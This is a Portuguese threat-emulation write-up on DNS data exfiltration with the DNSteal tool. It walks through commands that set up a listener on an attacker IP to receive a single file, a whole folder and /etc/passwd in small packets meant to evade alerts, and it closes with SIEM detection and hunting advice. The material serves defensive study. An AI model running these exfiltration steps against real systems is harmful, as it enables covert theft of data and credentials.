



<div style="display: flex; justify-content: center;">
  
</div>

# Exfiltração de dados usando DNSSteal

$\color{black}{\textsf{Pesquisador}}$ : $\color{purple}{\textsf{Bryenne Bonfim}}$

$\color{black}{\textsf{Tipo de Ameaça}}$ : $\color{orange}{\textsf{TTP}}$

$\color{black}{\textsf{TLP}}$ :  $\color{red}{\textsf{RED}}$

$\color{black}{\textsf{Nível de Impacto}}$ :  $\color{red}{\textsf{Alto}}$

$\color{black}{\textsf{Tipo de Impacto}}$ :  $\color{red}{\textsf{Exfiltração}}$

--------------------------------------

## Introdução à Exfiltração de Dados

Exfiltração de dados é referida ao processo em que um invasor busca os dados confidenciais do sistema do alvo e os armazena em seu sistema. Como a exfiltração de dados é simplesmente uma transferência de dados da rede, torna-se difícil de detectar. Toda organização lida com o manuseio de dados confidenciais, o que torna os ataques de exfiltração de dados muito reais. A exfiltração de dados pode ser causada devido a ameaças internas ou externas. Ameaças internas são compostas por um funcionário vendendo segredos para lucro ou compartilhando dados descuidadamente, enquanto ameaças externas são consideradas aquelas em que um criminoso cibernético explora uma vulnerabilidade para estabelecer uma posição e então rouba os dados.

## Protocolo DNS Está Funcionando?
O protocolo DNS funciona na porta TCP/UPD 53. É um protocolo sem estado, pois troca informações específicas. Ele permite que uma rede se conecte à internet e, sem ele, toda a navegação na internet seria impossível e absurda. Sua função é traduzir endereços IP para nomes de host (para a conveniência do usuário) e vice-versa. Daí a extrema importância do DNS em uma rede.

## Exfiltração de dados DNS e como funciona

Como sabemos, o DNS é um protocolo sem estado, ou seja, ele nunca foi criado para enviar ou receber dados de um cliente para o servidor. Mesmo assim, o DNS autorizado acreditará que todas as consultas enviadas a ele são legítimas. E esse fato é explorado por invasores como se uma solicitação fosse feita a um subdomínio, essa solicitação seria tratada como dados somente se a consulta fosse construída corretamente. Por exemplo, o invasor envia uma consulta para `example.target.com` e o `DNS target.com` recebe `'example'` como uma string, então ele considerará a referida string como dados e isso permitirá que o ataque acesse `target.com`. Agora, isso permite que o invasor configure um canal secreto principalmente usando o servidor C2 entre o DNS e o cliente e recupere todos os dados por meio de comunicação bidirecional. Manipular o DNS dessa forma para recuperar dados confidenciais é conhecido como Exfiltração de dados DNS.

Quando dados são transferidos de um sistema para outro sem nenhuma conexão direta e essa transferência de dados é feita pelo protocolo DNS, isso é conhecido como Exfiltração de Dados DNS. O protocolo DNS é explorado para fazer com que invasores coloquem as mãos em dados confidenciais.

## Emulação de Ameaça I - Exfiltrando um Único Arquivo

DNSteal é uma ferramenta que configura um servidor DNS falso e permite que um invasor entre furtivamente em uma rede. Como o nome sugere, ele é baseado no protocolo DNS e funciona na porta 53. Ele é usado para extrair dados do alvo após configurar a conexão e é uma das melhores ferramentas para Exfiltração de Dados DNS. Vários arquivos podem ser extraídos usando esta ferramenta. Ele também suporta compactação de arquivo Gzip. Tudo isso permite que você gerencie o tamanho dos pacotes que transportam seus dados pela rede para reduzir suspeitas.

Baixe o DNSteal usando o seguinte comando:

```zsh
clone do git https://github.com/m57/dnsteal
```

E para iniciar a ferramenta e ver todos os parâmetros que ela fornece, use o seguinte comando:

```zsh
python dnsteal.py
```

<p align="center">
  
 <br>
  Figura 1: Ferramenta DNSteal em Execução.
</p>

Agora, geraremos um comando usando DNSteal; o comando dito extrairá os dados desejados após a execução no sistema de destino. Para gerar o comando, informe seu IP local e use o parâmetro -z. Este parâmetro -z descompactará os arquivos após o recebimento, pois eles são compactados por padrão. Portanto, digite:

```zsh
python dnsteal.py [IP-DO-ATACANTE] -z
```

<p align="center">
  
 <br>
  Figura 2: Comandos Gerados para Exfiltração.
</p>

Do nosso sistema de destino, solicitaremos o arquivo `secret.txt` pela conexão DNS que estabelecerá quando executaremos o comando fornecido. O conteúdo de `secret.txt` pode ser visto na imagem a seguir:

<p align="center">
  
 <br>
  Figura 3: Conteúdo do Arquivo a ser Exfiltrado.
</p>

E quando o comando for executado, o arquivo solicitado será recebido no seu terminal. A ferramenta também calculará a soma do hash MD5 para você. Além disso, você pode visualizar o conteúdo do arquivo com o comando `cat`, conforme mostrado na imagem abaixo:

<p align="center">
  
 <br>
  Figura 4: Arquivo Exfiltrado e Contéudo do Arquivo.
</p>

## Emulação de Ameaça II -  Exfiltrando Pasta Inteira

Agora, tentaremos extrair uma pasta inteira em vez de um único arquivo. Inicie o servidor DNS fornecido pela ferramenta DNSteal digitando o seguinte comando:

```zsh
python dnsteal.py [IP-DO-ATACANTE] -z
```

Novamente, você verá que ele gerou dois comandos. No entanto, desta vez, copiaremos o segundo (destacado) e o colaremos na pasta de destino, conforme mostrado abaixo:

<p align="center">
  
 <br>
  Figura 5: Comand Gerado para Exfiltração de Pasta Inteira.
</p>

A pasta que tentaremos recuperar é mostrada na imagem abaixo, inclusive seus conteúdos. A pasta contém todos os tipos de dados, incluindo `.pdf`, `.msi`, `.png`, `.txt` e `.dll`.

<p align="center">
  
  Figura 6: Conteúdo da Pasta a Ser Exfiltrada e Comando Gerado para Exfiltração.
</p>

Após a execução do comando, você pode ver que a pasta foi recebida com precisão, com a soma de hash MD5 calculada para cada arquivo, conforme mostrado na imagem abaixo:

<p align="center">
  
 <br>
  Figura 7: Pasta Exfiltrada com Sucesso.
</p>

## Emulação de Ameaça III - Exfiltração em Vários Pacotes

Para reduzir a suspeita do ataque, um invasor pode dividir o arquivo em vários pacotes. Esses pacotes podem ter tamanho fixo em bytes. Um invasor pode até mesmo alocar alguns bytes para o nome do arquivo. Isso é feito para evitar disparar um alerta em uma rede que o abuso do tamanho do pacote UDP fará. Essa personalização pode ser feita usando os parâmetros `-s`, `-b` e `-f`: 
- `-s`: é para definir o valor do subdomínio; 
- `-b`: é para especificar o número de bytes por pacote [57]; 
- `-f`: é para definir o valor de bytes para o nome do arquivo [17]. 

No comando a seguir, que pode ser bem observado na imagem fornecida abaixo também, definimos 4 subdomínios. Os bytes por pacote são definidos como 57 e o valor do nome do arquivo é 17.

```zsh
python dnsteal.py [IP-DO-ATACANTE] -z -s 4 -b 57 -f 17
```

<p align="center">
  
 <br>
  Figura : Comandos para Exfiltração em Vários Pacotes.
</p>

Agora, vamos adquirir o arquivo `passwd` do alvo. Como você pode ver na imagem abaixo, o tamanho do arquivo é `3306` bytes. Agora, basta copiar o primeiro comando e colá-lo na pasta `/etc` no sistema alvo. Novamente, antes de executar o comando, certifique-se de alterar o nome do arquivo para `passwd`.

<p align="center">
  
 <br>
  Figura 8: Exfiltração do Arquivo PASSWD da Vítima.
</p>

Uma vez que o comando é executado, você pode ver que os dados recebidos estarão em pedaços de 243 bytes, como mostrado na imagem abaixo. E quando o recebimento estiver completo, ele lhe dará a soma do hash MD5 também e você pode ler o conteúdo do arquivo com o comando `cat` simples, pois o arquivo recebido será descompactado:

<p align="center">
  
 <br>
  Figura 9: Arquivo Recebido Descompactado.
</p>

E dessa forma recuperamos o arquivo de senhas. E enquanto era feito essa transferência de dados, o Wireshark nos ajudou a validar o tamanho de bytes por pacote. Além disso, podemos confirmar que a conexão estabelecida, bem como a transferência de dados, está sendo feita na porta `53`:

<p align="center">
  
 <br>
  Figura 10: Captura de pacotes DNS Recebidos pelo Wireshark.
</p>

Então, dessa forma, ao abusar da porta e do serviço de DNS, ocorre um ataque de exfiltração de dados de DNS.

## Detecção da Emulação: Exfiltração de Dados Via DNS

A detecção da exfiltração de dados é um pouco complexa, tendo em consideração que a conexão de rede via DNS é algo normal de se ver. Postando, a detecção que normalmete é feita pelo SIEM, não nos tráz algo afirmativo de que um ataque está acontecendo por meio de DNS. Abaixoo está o único log gerado no SIEM one detecta apenas um indicio que existe uma conexão com DNS:

<p align="center">
  
 <br>
  Figura 11: Log Gerado no SIEM.
</p>

O erro `"Failed to unpack UDP payload from port 53.dns: bad rdata"` sugere que o Auditbeat não conseguiu processar corretamente os dados DNS recebidos na porta 53. Isso pode ocorrer devido a:

- **Pacote DNS Corrompido ou Malformado:** Pode ser que o pacote DNS que foi capturado esteja corrompido ou tenha um formato inesperado.
- **Tráfego DNS Incomum:** Pode estar ocorrendo tráfego DNS com dados fora do padrão ou com uma estrutura inesperada que o Auditbeat não conseguiu processar.
- **Versão do Auditbeat ou Configuração:** A versão do Auditbeat pode estar com alguma limitação na interpretação de certos pacotes DNS ou a configuração do módulo de captura de DNS pode não estar correta.

## Engenharia de Detecção

Na seção a seguir, vamos sintetizar como caçar os indicadores de comprometimento produzidos 

### Caçando Indicadores de Comprometimento 

Como o ataque de Exfiltração de Dados por DNS é muito furtivo e como os dados estão sendo transferidos pela rede, é um desafio detectar esse ataque. Portanto, para detectar esse ataque, é preciso analisar regularmente o tráfego de rede. 

- Para detectar esses ataques, concentre-se nos processos que estão explorando a rede ou nos processos que são inesperados; 
- Além disso, analise os pacotes de rede em profundidade e verifique se há algum comportamento anormal. Por exemplo, se um cliente estiver enviando mais dados do que está recebendo, então é suspeito; 
- Para detectar esses ataques, procure também pelos pacotes de dados de tamanho fixo que estão sendo transmitidos por uma conexão longa.

----------------

## Conclusão

Monitorar e limitar o acesso de outras portas, como FTP, SSH, levou os invasores a criar novas técnicas, como explorar o DNS ao longo dos anos. O DNS é uma base para cada conexão de internet e, como cada conexão cliente-servidor depende do DNS; restringir o acesso ao DNS não é possível. E isso torna o DNS um protocolo valioso para um invasor usar como Exfiltração de Dados. A Exfiltração de Dados DNS é uma ameaça importante e muito real para todas as organizações. E, portanto, tanto a detecção quanto a prevenção de violações e perdas de dados devem ser tratadas pelas empresas. Ataques como Remsec e Helminith usaram a porta DNS para exfiltração de dados e esses ataques podem ser facilmente imitados. Portanto, educar-se sobre esses ataques é uma necessidade para se proteger, pois uma pesquisa recente mostra que 46% das empresas foram vítimas desse ataque.

Esperamos que você que leu ou assistiu o Webinar, possa ter compreendido a inteligência que trouxemos nesta pesquisa. Qualquer dúvida, é só nos contactar.

## Link do Webinar

Caso você não pode participar do Webinar de apresentação da pesquisa, ou gostaria rever, basta clicar neste [link]().